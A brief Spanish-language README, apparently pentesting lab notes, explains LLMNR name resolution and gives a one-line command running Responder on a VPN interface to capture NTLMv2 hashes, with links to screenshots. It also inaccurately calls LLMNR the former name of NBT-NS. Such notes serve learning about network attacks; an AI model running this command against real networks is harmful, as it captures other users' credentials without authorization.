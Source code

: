 # Qué es LLMNR?

- Se usa para identificar hosts cuando el DNS falla.
- Antes se conocía como `NBT-NS`
- El servicio utiliza el `username` de un usuario y un `Hash NTLMv2` cuando responde.

# Explicación gráfica del vector de ataque

[Ver la imagen](Images/main/README.md)

# Iniciando Ataque (Responder)

```
python /usr/share/responder.py -I tun0 -rdw
```

[Ver el Responder en proceso](Images/Responder/README.md)
[Ver la obtención de Hash NTMLv2](Images/Hash/README.md)
